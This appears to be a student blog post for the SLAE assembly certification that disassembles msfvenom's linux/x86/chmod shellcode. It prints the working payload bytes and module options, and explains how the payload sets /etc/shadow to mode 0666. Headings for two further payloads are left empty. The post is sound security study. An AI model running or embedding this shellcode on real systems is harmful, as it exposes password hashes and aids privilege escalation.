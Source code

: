 ```yaml
---
title: SLAE Exercise 5
tags: SLAE
key: 20190617
comments: true
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Five:

1. Take up at least 3 shellcode samples created using Msfpayload for linux/x86
2. Use GDB/Ndisasm/Libemu to dissect the funcSonality of the shellcode
3. Present your analysis

In this assignment, I am going to analyst 3 shellcode generated by msfvenom. Since we already covered the classic bind shell and reverse shell in previous assignment, I am not going to repeat those findings. Instead, I choose the following 3 shellcode.

1. linux/x86/chmod
2. linux/x86/meterpreter/reverse_tcp
3. linux/x86/shell_bind_tcp_random_port

### linux/x86/chmod:

Options:
```
       Name: Linux Chmod
     Module: payload/linux/x86/chmod
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 36
       Rank: Normal

Provided by:
    kris katterjohn <katterjohn@gmail.com>

Basic options:
Name  Current Setting  Required  Description
----  ---------------  --------  -----------
FILE  /etc/shadow      yes       Filename to chmod
MODE  0666             yes       File mode (octal)

Description:
  Runs chmod on specified file with specified mode


    Name                Current Setting  Required  Description
    ----                ---------------  --------  -----------
    AppendExit          false            no        Append a stub that executes the exit(0) system call
    PrependChrootBreak  false            no        Prepend a stub that will break out of a chroot (includes setreuid to root)
    PrependFork         false            no        Prepend a stub that executes: if (fork()) { exit(0); }
    PrependSetgid       false            no        Prepend a stub that executes the setgid(0) system call
    PrependSetregid     false            no        Prepend a stub that executes the setregid(0, 0) system call
    PrependSetresgid    false            no        Prepend a stub that executes the setresgid(0, 0, 0) system call
    PrependSetresuid    false            no        Prepend a stub that executes the setresuid(0, 0, 0) system call
    PrependSetreuid     false            no        Prepend a stub that executes the setreuid(0, 0) system call
    PrependSetuid       false            no        Prepend a stub that executes the setuid(0) system call
    VERBOSE             false            no        Enable detailed status messages
    WORKSPACE                            no        Specify the workspace for this module
    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
```

Using msfvenom, we get the following shellcode:

```c
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x0c\x00\x00\x00\x2f\x65\x74\x63\x2f"
"\x73\x68\x61\x64\x6f\x77\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd"
"\x80\x6a\x01\x58\xcd\x80";
```

With the help of ndisasm, we can understand what systemcall does the shellcode use.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-1.JPG"/>

Two systemcalls are used in this shellcode. According to /usr/include/i386-linux-gnu/asm/unistd_32.h, 
```c
0xf = #define __NR_chmod 15
0x1 = #define __NR_exit 1
```

So now we know which systemcalls the shellcode use, the rest will be figuring out how the arguments are passed to the call.

The shellcode will first use cdq <https://www.aldeid.com/wiki/X86-assembly/Instructions/cdq> to set both eax and edx to 0x0. Then, it will assign eax to 0xf, push edx to stack and make a call to 0x16.
This call is actually very interesting because it skip all instruction in between. After examine the value of ebx, we find out that it stores an address value which and be translate back to /etc/shadow.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-2.JPG"/>

So, where does the /etc/shadow come from? there are no sign of the assembly trying to push the value to stack, instead, it just appears after pop ebx.
Remember what we have learnt from the jmp-call-pop technique?
After a call, the next instruction's address will be pushed to the stack. Indeed, ndisasm actually interpret our /etc/shadow to opcode. If we look closer, we will find out the opcode in between is actually hex form of /etc/shadow and ebx is actually referencing the address of the start of /etc/shadow

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-4.JPG"/>
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-5.JPG"/>
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-6.JPG"/>

How about the permission? In Linux, we knew that permission is assigned to a few value, read = 4, write = 2, execute = 1. The default of this chmod shellcode is going to set the permission to world wide read and writable so we are looking for 0666. After throwing the value that is going to assign to ecx, we got

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-3.JPG"/>

The octet value of 1B6 is 666, look promising. 

Now, we have all the values and after calling the systemcall, the premission if /etc/shadow was changed

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex5-7.JPG"/>

The rest will be calling the exit systemcall, which is very simple. 

### linux/x86/shell_bind_tcp_random_port:

### linux/x86/meterpreter/reverse_tcp:

